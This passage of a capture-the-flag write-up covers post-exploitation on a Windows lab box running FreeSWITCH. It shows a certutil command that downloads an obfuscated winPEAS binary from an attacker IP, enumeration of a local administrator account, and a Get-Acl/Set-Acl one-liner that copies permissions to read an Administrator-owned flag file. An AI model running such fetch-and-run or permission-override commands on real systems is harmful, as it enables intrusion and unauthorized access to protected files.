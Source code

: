 ```powershell
PS C:\Program Files\FreeSWITCH>certutil -urlcache -split -f [http://10.14.6.6:8888/](http://10.14.6.6:8888/winpeas.exe)winPEASx64_ofs.exe winPEAS-Obfuscated.exe
```

Unfortunately I could not get winpeas.exe to run properly. So we need to do some manual enumeration…

## User Enumeration

It looks like our current user is a member of the Local Group Administrators.
Perhaps we could abuse this somehow…

```powershell
PS C:\users\nekrotic\desktop> net user nekrotic
User name                    Nekrotic
Full Name                    Nekrotic
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            09/11/2021 08:16:50
Password expires             Never
Password changeable          09/11/2021 08:16:50
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   28/08/2022 14:06:28

Logon hours allowed          All

Local Group Memberships      *Administrators       *Users
Global Group memberships     *None
The command completed successfully.
```

## Changing File Permissions

We can probably change the file permissions to be able to read the root.txt that is owned by the Administrator. We can do this with Get-Acl and Set-Acl in PowerShell.

For example to copy the ACL from user.txt to root.txt use this:

```powershell
Get-Acl -Path "C:\users\nekrotic\desktop\user.txt" | Set-Acl -Path "C:\users\nekrotic\desktop\root.txt"
```
